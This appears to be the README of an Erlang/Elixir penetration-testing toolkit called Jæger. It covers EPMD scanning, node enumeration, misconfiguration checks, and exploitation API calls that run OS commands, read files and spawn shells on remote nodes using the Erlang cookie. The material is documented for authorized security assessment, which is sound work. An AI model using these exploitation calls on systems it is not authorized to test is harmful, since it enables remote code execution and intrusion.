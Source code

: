 # Jæger

> *Jæger* — Norwegian for "hunter." In Norse myth, the hunter stalks what others cannot see. In distributed systems, so must we.

Erlang/Elixir node discovery and penetration testing toolkit.

## Features

- **Discovery**: EPMD scanning and node enumeration
- **Fingerprinting**: System info and version detection
- **Vulnerability Scanning**: Security misconfiguration detection
- **Exploitation**: RCE and post-exploitation capabilities

## Build

```bash
rebar3 escriptize
```

## Quick Start

```bash
# Start a test node
erl -sname myapp -setcookie secret123

# Scan for it
./_build/default/bin/jeger -r 127.0.0.1-1

# Scan network range with custom timeout and concurrency
./_build/default/bin/jeger -r 192.168.1.1-254 -t 2000 -c 100
```

Common targets: Phoenix/Elixir apps, RabbitMQ, CouchDB, ejabberd

## API Usage

```erlang
% Start shell
rebar3 shell

% Discovery
{ok, Hosts} = jeger_discovery:discover({"192.168.1.", 1, 254}, #{timeout => 2000, verbose => true}).

% Enumeration
{ok, Info} = jeger_enum:enumerate_node("192.168.1.5", "myapp", secret).

% Vulnerability scanning
{ok, Findings} = jeger_scan:scan_node("192.168.1.5", "myapp", secret).

% Exploitation
{ok, Result} = jeger_exploit:execute_command("192.168.1.5", "myapp", secret, "os:cmd(\"whoami\")").
{ok, Content} = jeger_exploit:read_file("192.168.1.5", "myapp", secret, "/etc/hosts").
{ok, Pid} = jeger_exploit:spawn_shell("192.168.1.5", "myapp", secret).
```

## Testing

```bash
rebar3 eunit
```

## Warning

**For authorized security assessments only.** Unauthorized access is illegal.

## License

Apache-2.0
